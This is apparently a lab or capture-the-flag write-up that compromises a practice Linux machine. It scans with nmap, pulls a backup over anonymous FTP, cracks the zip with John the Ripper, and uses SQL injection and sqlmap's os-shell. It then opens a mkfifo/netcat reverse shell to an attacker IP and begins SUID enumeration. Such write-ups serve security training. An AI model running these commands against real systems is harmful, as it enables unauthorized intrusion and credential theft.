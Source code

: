 #Linux #FTP #SQL #SUID

**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.129.17.227
  ```

* To see the versions of the services running (-sV)
* To perform a script scan using the default set of scripts (-sC)
* To scan all ports from 1 through 65535 (-p-)

Open Ports

21/tcp open  ftp     vsftpd 3.0.3

22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

![image](https://user-images.githubusercontent.com/99097743/169863478-0bfbc6c9-0ec3-49bf-a48e-13fdbe28576a.png)

**FTP**

Nmap scan highlights that **anonymous FTP login is allowed**

We are able to download the **backup.zip**

![image](https://user-images.githubusercontent.com/99097743/169863972-2e3d4672-6476-4db9-a294-0e3977a458df.png)

We have a situation here, what is the password of the zip file?

![image](https://user-images.githubusercontent.com/99097743/169865265-8d628052-84c0-4743-880b-7b51031655c9.png)

No worries, John the Ripper to rescue!

https://github.com/openwall/john

John the Ripper jumbo - advanced offline password cracker, which supports hundreds of hash and cipher types, and runs on many operating systems, CPUs, GPUs, and even some FPGAs

Here are the steps:


1. Generate the hash of the zipfile and save it as hash

```sh
zip2john backup.zip > hash
```

2. Use **John** to crack the password using commonly used words (rock.txt). If the password does not show up on the terminal, you can see the password in jonh.pot

```sh
john -w=/usr/share/wordlists/rockyou.txt hash
```

Thanks John! We can now unzip the **backup.zip**

* index.php  --> there is a username:password pair with MD5 hash: You can use one of the free services for Decrypt & Encrypt MD5
* style.css

Using the credentials we can log in to the Car Catalogue

![image](https://user-images.githubusercontent.com/99097743/169875305-9ca24fb3-ecf4-4df9-bf70-96ca635e8de5.png)


**SQL Injection**

* If you try a single quote (') inside the search box --> ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
* If you try ' OR '1' = '1  --> No ERROR message: brings all cars as 1=1 always!


Let's use the **sqlmap** for this lab. 

https://github.com/sqlmapproject/sqlmap.git

Automatic SQL injection and database takeover tool

![image](https://user-images.githubusercontent.com/99097743/169881600-07143523-6f87-4718-8a3c-f4e193bf331a.png)

Here are the steps:


1. Capture the GET file of a sample search with BurpSuite as **new.req**

![image](https://user-images.githubusercontent.com/99097743/169882864-38319cd4-af40-4ee0-b1c7-f196263b2886.png)


2. Run the **sqlmap** tool

```sh
sqlmap -r new.req
```
* -r means REQUESTFILE: Load HTTP request from a file

![image](https://user-images.githubusercontent.com/99097743/169883168-7c07a0ba-86fd-4f12-afeb-2c924713107e.png)

3. Run the **--os-shell** command

```sh
sqlmap -r new.req --os-shell
```
* --os-shell means prompt for an interactive operating system shell
*  If asked "Do you want to retrieve the command standard output? [Y/n/a]" --> Click a = ALWAYS

4. Do not forget to active the listener

![image](https://user-images.githubusercontent.com/99097743/169885449-68625d07-68cc-4ef4-9b7c-2d9099f73384.png)

5. Get the reverse shell payload, revshells.com can help us here, we can try **mkfifo**

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.26 87 >/tmp/f
```

![image](https://user-images.githubusercontent.com/99097743/169886969-48f93363-4338-43c0-ab9b-5120fedddf3e.png)

6. We can improve the shell and make it fully interactive using the following commands

```sh
python3 -c 'import pty;pty.spawn("/bin/bash");'
stty raw -echo
fg
export TERM=xterm
```
It worked!

![image](https://user-images.githubusercontent.com/99097743/169887719-ad875cea-7937-4477-8af5-66954b722d72.png)

We can now capture the user flag!

![image](https://user-images.githubusercontent.com/99097743/169892144-9a64989d-8b83-482a-8989-72c3c4080914.png)

**Privilege Escalation**

We are trying privilege Escalation By using SUID. Let's start with this command:

```sh
find / -perm -4000 -type f 2>/dev/null
```
*/ denotes that we will start from the top (root) of the file system and find every directory
* -perm denotes that we will search for the permissions that follow:
* -type states the type of file we are looking for
* f denotes a regular file, excluding directories and special files
* 2>/dev/null means we will redirect all errors to /dev/null. In other words, we will ignore all errors.
